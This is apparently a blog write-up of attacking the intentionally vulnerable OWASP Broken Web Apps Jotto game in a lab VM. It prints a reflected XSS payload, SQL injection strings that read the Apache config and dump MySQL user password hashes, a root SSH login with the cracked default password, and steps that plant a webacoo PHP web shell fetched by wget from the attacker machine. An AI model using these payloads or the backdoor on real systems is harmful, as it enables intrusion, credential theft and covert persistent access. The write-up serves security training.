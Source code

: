 +++
title = "OWASP Broken Web Apps Vicnum - Jotto"
slug = "owasp-broken-web-apps-vicnum-jotto"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

```bash
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
```

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

```javascript
<script>alert(1)</script>
```

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
```sql
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
```

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

```sql
'  union all select user,password,3,4 from mysql.user#
```

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

```bash
webacoo -g -o bd.php
```

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
